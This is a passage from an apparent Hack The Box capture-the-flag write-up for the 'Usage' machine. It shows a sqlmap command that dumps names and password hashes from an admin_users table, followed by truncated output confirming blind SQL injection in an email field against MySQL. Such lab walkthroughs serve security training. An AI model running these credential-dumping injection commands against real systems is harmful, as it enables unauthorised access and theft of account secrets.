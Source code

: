 ```c
<---CUT FOR BREVITY --->  
```

Here is the final command we put together to `dump` the `hash` of the user `Administrator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Usage/files]
└─$ sqlmap -r request.req --level 5 --risk 3 -D usage_blog -T admin_users -C name,password --dump  --batch             
        ___
       __H__                                                                     
 ___ ___[(]_____ ___ ___  {1.8.3#stable}                                         
|_ -| . ["]     | .'| . |                                                        
|___|_  ["]_|_|_|__,|  _|                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:52:00 /2024-04-13/

[15:52:00] [INFO] parsing HTTP request from 'request.req'
POST parameter '_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
Cookie parameter 'XSRF-TOKEN' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[15:52:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[15:52:01] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[15:52:02] [WARNING] POST parameter '_token' does not appear to be dynamic
[15:52:02] [WARNING] heuristic (basic) test shows that POST parameter '_token' might not be injectable
[15:52:02] [INFO] testing for SQL injection on POST parameter '_token'
[15:52:02] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:52:16] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[15:52:25] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[15:52:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause
<--- CUT FOR BREVITY --->
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
<--- CUT FOR BREVITY --->
[16:10:03] [INFO] testing for SQL injection on POST parameter 'email'
[16:10:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:10:52] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[16:11:30] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[16:12:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[16:12:17] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable 
[16:12:20] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[16:12:20] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[16:12:21] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[16:12:21] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[16:12:22] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
<--- CUT FOR BREVITY --->
```